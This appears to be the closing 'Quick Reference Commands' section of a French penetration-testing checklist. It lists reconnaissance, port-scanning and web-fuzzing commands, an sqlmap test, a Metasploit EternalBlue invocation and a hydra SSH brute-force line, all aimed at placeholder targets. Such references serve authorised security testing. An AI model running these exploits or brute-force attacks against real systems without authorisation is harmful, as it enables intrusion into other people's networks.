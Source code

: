 
## ⚡ Quick Reference Commands

### **Reconnaissance Rapide**
```bash
# DNS enumeration rapide
dig exemple.com ANY +noall +answer
nslookup -type=any exemple.com

# Sous-domaines
amass enum -passive -d exemple.com
sublist3r.py -d exemple.com

# Port scan rapide
nmap -T4 -F IP_TARGET
masscan -p1-65535 IP_TARGET --rate=1000
```

### **Web Testing Rapide**
```bash
# Directory enumeration
gobuster dir -u http://IP_TARGET -w /usr/share/wordlists/dirb/common.txt
ffuf -w wordlist.txt -u http://IP_TARGET/FUZZ

# SQL injection test
sqlmap -u "http://IP_TARGET/page?id=1" --batch --banner
```

### **Exploitation Commune**
```bash
# Metasploit EternalBlue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS IP_TARGET
exploit

# SSH brute force
hydra -l admin -P passwords.txt IP_TARGET ssh
```

---

*Cette checklist est votre compagnon de route pour mener des pentests méthodiques et complets. Adaptez-la selon vos besoins mais ne négligez aucune phase !* 